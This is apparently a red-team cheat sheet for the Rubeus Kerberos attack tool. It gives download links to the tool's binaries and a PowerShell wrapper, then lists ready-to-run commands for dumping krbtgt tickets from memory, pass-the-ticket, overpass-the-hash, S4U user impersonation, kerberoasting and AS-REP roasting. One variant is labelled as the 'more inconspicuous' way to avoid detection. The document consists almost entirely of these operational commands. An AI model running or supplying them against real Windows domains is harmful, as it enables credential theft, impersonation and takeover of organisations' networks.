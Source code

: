 ### Sources or compile directly from github
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  

## note: always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```


### Create new process
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe'
```

#### pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```


### Kerberoasting using john format
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt '
```

### Asrep roasting using john format 
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

